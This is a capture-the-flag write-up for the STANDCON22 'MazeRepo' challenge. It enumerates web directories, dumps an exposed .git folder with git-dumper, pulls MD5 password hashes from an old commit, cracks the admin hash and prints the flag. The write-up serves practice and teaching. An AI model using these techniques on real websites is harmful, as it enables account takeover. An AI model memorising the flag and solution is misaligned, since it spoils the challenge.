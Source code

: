 ```yaml
---
layout: default
title: Maze Repo
permalink: /:path/
nav_order: 2
---
```


# MazeRepo
> Points: 500

# Description

> You are about to witness a repository that has more than it meets the eye! Some think it as a maze but I would say it's the mirror that deceives you the most :)
>
> `nc 18.141.84.203 58160`
>
> The above port will spawn an instance of your challenge please do not attack it.
>
> Note: Hint #1 can be exchanged on the discord server with fishes. Hints here are hints #2 onwards.

# Solution

Starting the challenge and viewing the provided webpage does not provide much information regarding the type of exploit.

![](MazeRepo1.png)

Next, we enumerate standard web directories using gobuster and dirsearch. Using dirsearch yields the following results.

```bash
[15:10:08] 403 -  281B  - /.php                                            
[15:10:15] 200 -  942B  - /backup/                                          
[15:10:15] 301 -  324B  - /backup  ->  http://18.141.84.203:60314/backup/   
[15:10:15] 403 -  281B  - /cgi-bin/                                         
[15:10:20] 200 -    1KB - /index.php                                        
[15:10:20] 200 -    1KB - /index.php/login/                                 
[15:10:26] 403 -  281B  - /server-status                                    
[15:10:26] 403 -  281B  - /server-status/  
```

Visiting the `/backup` there is a file called `users.db` which is likely an sqlite database. Doing a simple `cat` on the file shows the following information.

```bash
└─# cat users.db 
NN/=tableloginloginCREATE TABLE login (
        id INTEGER PRIMARY KEY NOT NULL,
        username TEXT NOT NULL,
        password TEXT NOT NULL,
        email TEXT NOT NULL,
        admin INTEGER NOT NULL
```

The information does not help us with the exploitation.

Doing further enumeration using dirsearch on the `/backup` folder,

```bash
└─# dirsearch -u http://18.141.84.203:60314/backup
   
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )


Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927


Output File: /home/kasm-user/.dirsearch/reports/18.141.84.203-60314/-backup_22-06-24_15-13-56.txt

Error Log: /home/kasm-user/.dirsearch/logs/errors-22-06-24_15-13-56.log

Target: http://18.141.84.203:60314/backup/

[15:13:56] Starting: 
[15:13:57] 301 -  329B  - /backup/.git  ->  http://18.141.84.203:60314/backup/.git/
[15:13:57] 200 -    3KB - /backup/.git/                     
[15:13:57] 200 -   73B  - /backup/.git/description
[15:13:57] 200 -   40B  - /backup/.git/COMMIT_EDITMSG      
```
There is a `.git` directory inside of backup. Using `git-dumper` it is possible to dump out the git repo.

This can be done with this command,  `git-dumper http://18.141.84.203:60314/backup/ mazerepo`, which dumps the git directory to a new folder, `mazerepo`.

Inside of `mazerepo` is a `users.db` which is identical to above database. Checking the branches using `git branch -a` , shows that there is another branch called **develop**.

```bash
└─# git branch -a
  develop
* main
  remotes/origin/develop
  remotes/origin/main
```

Switching to the **develop** branch and viewing the history. There is a commit with the description `[SECURITY FIX] Removed password hashes.` An example of the log can be found below.

```bash
└─# git log 
commit 08639b3c3ee4164e49007d5cf7b6f38ea0f2c316 (HEAD -> develop, origin/develop)
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:46:45 2022 +0000

    [SECURITY FIX] Removed password hashes.

commit db076c2c5954771f1c6878f174d0ed9c310c9e98
Author: Samantha McCarthy <samantha@insecurecorp.com>
Date:   Sun Mar 20 04:45:39 2022 +0000

    Added initial userbase.

commit 6dd7f1db2b923ab81f8c3a61a1af072a95dbb2db (origin/main, main)
Author: Taylor Ivanovich <taylor@insecurecorp.com>
Date:   Sun Mar 20 04:43:15 2022 +0000

    Added db with schema.
```

Switching to the commit `db076c2c5954771f1c6878f174d0ed9c310c9e98` and listing the databases, displays some usernames and hashed passwords.

```bash
└─# sqlite3 users.db 
SQLite version 3.38.5 2022-05-06 15:25:27
Enter ".help" for usage hints.
sqlite> select * from loginl
1|john|c67a0e602a14bd3c044c211a247543bc|john@n0h4ts.com|0
2|mary|a0730c2cbc70248b02deadef08df9c2d|mary@n0h4ts.com|0
3|andrew|37e6da31612b9af7f35334762610bbdf|andrew@n0h4ts.com|0
4|jim|e2b5357bebf845e2b65a778cb10c6a89|jim@n0h4ts.com|0
5|candace|ef86e416090141499abf1067a0ef19cc|candace@n0h4ts.com|0
6|martha|cf437898f42863588bede0d6812b2eba|martha@n0h4ts.com|0
7|elliot|24af1b08c221ce3916ae34252dd8feef|elliot@n0h4ts.com|0
8|tom|c2991a5d085d8d36b6857479fdf3f6cb|tom@n0h4ts.com|0
9|michael|a6539c35ec07965956f1de7b3ec36971|michael@n0h4ts.com|1
10|sara|24a865f97e426bdb8b7ccc8720ae635a|sara@n0h4ts.com|0
```

Using crackstation, on the passwords, we can retrieve that plaintext password for **micheal**.

![](MazeRepo2.png)

Using the credentials to log into the webpage, the flag is displayed there.

![](MazeRepo3.png)

# Flag

`STANDCON22{bl33d!ng_g!t_r3p0_!s_4_tr34sur3_tr0v3}`
